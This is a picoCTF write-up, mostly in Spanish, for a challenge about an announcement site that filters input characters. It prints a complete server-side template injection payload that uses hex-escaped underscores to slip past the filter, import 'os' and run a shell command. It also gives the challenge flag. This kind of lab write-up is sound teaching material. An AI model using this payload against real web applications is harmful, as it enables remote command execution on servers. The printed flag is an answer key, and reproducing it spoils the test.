 ## Descripción:
I made a cool website where you can announce whatever you want! I read about input sanitization, so now I remove any kind of characters that could be a problem :)

Additional details will be available after launching your challenge instance.

# Solución
La clave fue utilizar **secuencias de escape hexadecimales** dentro de los strings para construir los nombres de atributos prohibidos, como `__globals__`. El carácter `_` se puede representar como `\x5f`.

Inyecté el siguiente payload completo en el formulario. Este payload navega por los objetos de la aplicación, importa el módulo `os` del sistema y lo usa para ejecutar `cat flag.txt`.

Django

```
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat flag.txt')|attr('read')()}}
```

El servidor procesó el payload, ejecutó el comando y devolvió la bandera como resultado.

Respuesta `picoCTF{sst1_f1lt3r_byp4ss_e39c23ee}`

## Notas

## Referencias
 